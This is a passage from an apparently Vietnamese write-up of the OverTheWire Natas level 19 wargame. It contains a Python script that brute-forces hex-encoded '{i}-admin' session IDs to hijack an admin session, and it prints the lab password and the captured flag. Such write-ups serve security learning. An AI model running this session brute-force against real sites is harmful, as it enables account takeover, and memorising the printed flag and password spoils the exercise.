 ```python=

    # Xác thực với tến người dùng natas19 và mật khẩu
    username = 'natas19'
    password = '8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s'
    auth_string = f"{username}:{password}".encode('ascii')
    base64_auth_string = base64.b64encode(auth_string).decode('ascii')
    headers = {'Authorization': f'Basic {base64_auth_string}'}

    # Dữ liệu để post đến natas19
    url = 'http://natas19.natas.labs.overthewire.org'
    data = {'username': 'admin', 'password': 'password'}
    data = urllib.parse.urlencode(data).encode('utf-8')

    # Gửi request đến và lấy dữ liệu phản hồi về
    req = urllib.request.Request(url, data, headers=headers)
    cookie_handler = urllib.request.HTTPCookieProcessor(cookie_jar)
    opener = urllib.request.build_opener(cookie_handler)
    response = opener.open(req)
    html = response.read().decode('utf-8')

    return html



def main():
    ''' gửi 640 gói tin đến mục tiêu và kiểm tra trang phản hồi nào có dữ liệu cần 
    tìm, sủ dụng binascii để mã hóa encode hex string dữ liệu'''
    for i in range(1, 641):
        string = f"{i}-admin"
        hex_string = binascii.hexlify(string.encode())
        session_id = hex_string.decode()
 
        result = send_request(session_id)
        if "You are an admin. The credentials for the next level are" in result:
            print(f"Session id  cần tìm là {session_id}")
            sys.exit(0)



if __name__ == "__main__":
    main()

```
Similar level 28, but this time use hex string encode .

result: ![](https://i.imgur.com/wXmu6w8.png)


Flag: guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH

## level 20
